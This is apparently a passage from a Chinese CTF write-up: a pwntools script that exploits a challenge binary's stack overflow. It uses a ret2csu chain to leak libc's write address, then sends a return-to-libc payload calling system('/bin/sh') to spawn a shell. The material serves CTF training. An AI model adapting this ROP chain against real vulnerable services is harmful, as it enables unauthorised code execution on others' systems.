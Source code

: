 此时我们尝试运行攻击脚本

exp：

```plain
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331
r131415 = 0x40132e

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)

io.sendlineafter('backdoor!',payload1)

#write_addr = u64(io.recv(6).ljust(8,b"\x00"))
write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
#libc = LibcSearcher('write',write_addr)
#libc_base = write_addr - libc.dump('write')
#system = libc_base + libc.dump('system')
#binsh = libc_base + libc.dump('str_bin_sh')
#binsh = libc_base + libc.dump('str_bin_sh')
print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload2)

```